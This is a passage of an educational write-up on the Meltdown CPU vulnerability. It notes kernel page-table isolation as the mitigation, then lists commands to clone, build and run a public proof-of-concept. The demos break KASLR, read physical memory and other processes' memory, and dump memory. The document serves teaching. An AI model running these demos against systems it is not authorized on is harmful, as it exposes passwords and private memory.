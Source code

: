 As mentioned before, one key concept of Meltdown is the map chain among user process memory, kernel memory, and physical memory. Kernel page-table isolation establishes a better barrier between user space and kernel space memory which effectively control the impact of Meltdown.

## Meltdown in action

- **[Proof-of-concept demo](https://github.com/IAIK/meltdown)**

    Clone the git repository from [meltdownattack](https://github.com/IAIK/meltdown):

    ```git clone https://github.com/IAIK/meltdown.git```

    Make the .c files:

    ```make```

    *The repository contains 5 demos of meltdown exploitation:*

1. Read accessible addresses from the own address space

    ```taskset 0x1 ./test```

2. Breaking Kernel Address Space Layout Randomizaton(KASLR)

    ```sudo taskset 0x1 ./kaslr```

3. Read reliable physical memory by physical map offset

    ```sudo taskset 0x1 ./reliability 0xffff880000000000```

4. Read physical memory from a different process

    ```sudo ./secret```

5. Dump the memory

    ```./memory_filler 9```

- **Examples**

[![IMAGE ALT TEXT](http://img.youtube.com/vi/bReA1dvGJ6Y/0.jpg)](http://www.youtube.com/watch?v=bReA1dvGJ6Y "Meltdown in Action: Dumping memory")

[![IMAGE ALT TEXT](http://img.youtube.com/vi/RbHbFkh6eeE/0.jpg)](http://www.youtube.com/watch?v=RbHbFkh6eeE "Meltdown demo - Spying on passwords")

## References
[1] M. Smotherman, “IBM Stretch (7030) -- Aggressive Uniprocessor Parallelism,” Organization Sketch of IBM Stretch. [Online]. Available: https://people.cs.clemson.edu/~mark/stretch.html. [Accessed: 27-Mar-2021]. 

[2]	M. Lipp, D. Gruss, R. Spreitzer, C. Maurice, and S. Mangard, “ARMageddon: Cache attacks on mobile devices,” arXiv [cs.CR], 2015.

[3]	S. Gibbs, “Meltdown and Spectre: ‘worst ever’ CPU bugs affect virtually all computers,” The guardian, The Guardian, 04-Jan-2018.

[4]	Wikipedia contributors, “Instruction pipelining,” Wikipedia, The Free Encyclopedia, 08-Jan-2021. [Online]. Available: https://en.wikipedia.org/w/index.php?title=Instruction_pipelining&oldid=999049469. [Accessed: 27-Mar-2021].
